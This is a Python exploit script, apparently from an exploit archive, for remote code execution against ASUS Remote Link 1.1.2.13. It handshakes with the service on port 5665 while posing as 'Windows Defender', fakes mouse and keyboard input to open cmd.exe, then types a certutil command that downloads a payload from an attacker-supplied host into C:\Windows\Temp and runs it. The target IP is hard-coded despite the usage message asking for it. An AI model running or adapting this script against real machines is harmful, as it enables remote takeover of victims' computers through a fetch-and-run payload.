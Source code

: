 EXP
---

    # Exploit: ASUS Remote Link 1.1.2.13 - Remote Code Execution
    # Date: 24-02-2021
    # Exploit Author: H4rk3nz0
    # Vendor Homepage: http://asus.com/
    # Software Link: http://remotelink.asus.com/
    # Version: 1.1.2.13
    # Tested on: Windows 10 Enterprise Build 17763
    # CVE: N/A

    #!/usr/bin/python

    import socket
    from time import sleep
    import sys


    port = 5665
    target = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    prefix = "04020b02"
    suffix = "0000020000000000000000000300000000000000000004000000000000000000010000"
    enter = (prefix + ("0" * 1038)).decode("hex")
    string_prefix = "04020b0200000000010000"
    string_suffix = "0" * 1022
    pre_command = "04000b0200000000".decode("hex")
    user_declare = ("02028a0000000000000057696e646f777320446566656e646572" + "0" * 224).decode("hex") # Declares Connection Source as 'Windows Defender'

    # ASCII to Hex Character List
    characters={
        "A":"41","B":"42","C":"43","D":"44","E":"45","F":"46","G":"47","H":"48","I":"49","J":"4a","K":"4b","L":"4c","M":"4d","N":"4e",
        "O":"4f","P":"50","Q":"51","R":"52","S":"53","T":"54","U":"55","V":"56","W":"57","X":"58","Y":"59","Z":"5a",
        "a":"61","b":"62","c":"63","d":"64","e":"65","f":"66","g":"67","h":"68","i":"69","j":"6a","k":"6b","l":"6c","m":"6d","n":"6e",
        "o":"6f","p":"70","q":"71","r":"72","s":"73","t":"74","u":"75","v":"76","w":"77","x":"78","y":"79","z":"7a",
        "1":"31","2":"32","3":"33","4":"34","5":"35","6":"36","7":"37","8":"38","9":"39","0":"30",
        " ":"20","+":"2b","=":"3d","/":"2f","_":"5f","<":"3c",
        ">":"3e","[":"5b","]":"5d","!":"21","@":"40","#":"23","$":"24","%":"25","^":"5e","&":"26","*":"2a",
        "(":"28",")":"29","-":"2d","'":"27",'"':"22",":":"3a",";":"3b","?":"3f","`":"60","~":"7e",
        "\\":"5c","|":"7c","{":"7b","}":"7d",",":"2c",".":"2e"}


    # User Specified arguments
    try:
        rhost = "192.168.1.93"
        lhost = sys.argv[2]
        payload = sys.argv[3]
    except:
        print("Usage: python " + sys.argv[0] + " <target-ip> <local-http-ip> <payload-name>")
        exit()

    # HandShake Packets to Smart Gesture Server
    def Handshake():
        target.connect((rhost,port))
        target.sendto("b2".decode("hex"),(rhost,port))
        target.sendto("38323538".decode("hex"),(rhost,port))
        target.sendto("03000f0000000000".decode("hex"),(rhost,port))
        target.sendto("03020f000000000003310000000000".decode("hex"),(rhost,port))
        target.sendto("02008a0000000000".decode("hex"),(rhost,port))
        target.sendto(user_declare,(rhost,port))
        sleep(0.1)


    def MoveMouse():
        for i in range(0,16):
            target.sendto("0000330038040006".decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101db010000c502" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101d0010000ca02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101c7010000ce02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101bd010000d202" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101b2010000d502" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101a6010000d802" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010199010000db02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000133003804000601018d010000de02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010180010000e002" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010171010000e402" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010163010000e602" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010154010000e902" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010146010000eb02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000133003804000601013b010000ed02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000133003804000601012d010000f002" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010120010000f302" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010113010000f702" + suffix).decode("hex"),(rhost,port))
            target.sendto(("0001330038040006010107010000fa02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101fa000000fd02" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101f10000000003" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101e50000000303" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101d90000000603" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101ce0000000903" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101c20000000d03" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101b60000001103" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101ab0000001403" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101a00000001803" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101950000001c03" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101890000002003" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000133003804000601017e0000002403" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101740000002703" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000133003804000601016c0000002a03" + suffix).decode("hex"),(rhost,port))
            target.sendto(("00013300380400060101650000002c03" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000133003804000601015c0000002f03" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000133003804000601015c0000003003" + suffix).decode("hex"),(rhost,port))
            target.sendto(("000233003804000601005c0000003003" + suffix).decode("hex"),(rhost,port))
            sleep(0.6)

    # Sends Left Click Input (Occasional Delay for some Reason)
    def LeftClick():
        target.sendto("0000330038040006".decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0001330038040006010116020000e502" + suffix).decode("hex"),(rhost,port))
        target.sendto(("0002330038040006010016020000e502" + suffix).decode("hex"),(rhost,port))
        sleep(4)

    # Send Enter/Return Key Input
    def SendReturn():
        target.sendto(pre_command,(rhost,port))
        sleep(0.2)
        target.sendto(enter,(rhost,port)) # Enter/Return Key

    # Send String Characters
    def SendString(string):
        for char in string:
            convert = characters[char]
            final_string = string_prefix + convert + string_suffix
            target.sendto(pre_command,(rhost,port))
            target.sendto(final_string.decode("hex"),(rhost,port))
            sleep(0.2)

    # Main Execution
    def main():
        print("[+] Saying Hello")
        Handshake()
        sleep(2)
        print("[+] Moving Mouse")
        MoveMouse()
        print("[+] Left Clicking (takes a few seconds)")
        LeftClick() # Left Click is delayed sometimes
        print("[+] Opening CMD")
        SendString("cmd.exe") # Start Command Prompt
        sleep(0.5)
        SendReturn()
        sleep(1)
        print("[+] Retrieving Payload")
        SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " C:\\Windows\Temp\\" + payload) # Retrieve Payload
        sleep(0.5)
        SendReturn()
        sleep(3)
        print("[+] Executing")
        SendString("C:\\Windows\\Temp\\" + payload) # Execute Payload
        sleep(0.5)
        SendReturn()
        sleep(0.5)
        print("[+] Done! Check your listener?")
        SendReturn() # Trailing Enter Command Ensures full execution
        target.close()
        exit()

    if __name__=="__main__":
        main()